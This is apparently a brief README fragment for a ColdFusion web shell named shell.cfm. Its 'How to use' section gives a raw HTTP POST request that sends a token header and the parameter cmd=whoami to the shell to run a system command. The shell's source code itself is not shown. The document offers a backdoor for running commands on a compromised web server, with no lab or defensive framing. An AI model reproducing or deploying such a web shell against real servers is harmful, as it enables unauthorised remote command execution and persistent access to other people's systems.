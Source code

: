 How to use
```
POST /path/shell.cfm HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

cmd=whoami&op=

```
![image](https://user-images.githubusercontent.com/24661746/131246420-775e1e9e-fe6a-4afd-881a-48245540ab8f.png)
